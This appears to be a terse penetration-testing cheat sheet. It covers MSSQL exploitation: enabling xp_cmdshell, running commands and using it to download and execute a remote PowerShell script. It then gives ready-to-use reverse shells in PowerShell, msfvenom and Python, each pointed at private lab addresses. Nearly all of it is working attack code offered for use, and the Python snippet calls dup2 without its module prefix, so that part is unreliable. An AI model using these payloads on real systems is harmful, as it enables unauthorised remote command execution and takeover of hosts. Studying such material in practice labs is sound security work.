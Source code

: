 # exploittation
 go to insite and run: 
``` 
 EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"

```

ReverseShell:
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream =
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =
$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName
System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 |
Out-String );$sendback2 = $sendback + "# ";$sendbyte =
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyt
e.Length);$stream.Flush()};$client.Close()
``` 
save the shell.ps1 file. then using the python to download 

From the sql cmd: 

xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://IP/shell.ps1\");"

# msf venom

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.37 LPORT=53 -f exe -o reverse64.exe
```
# python

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.6",1233));
dup2(s.fileno(),0); 
dup2(s.fileno(),1); 
dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```
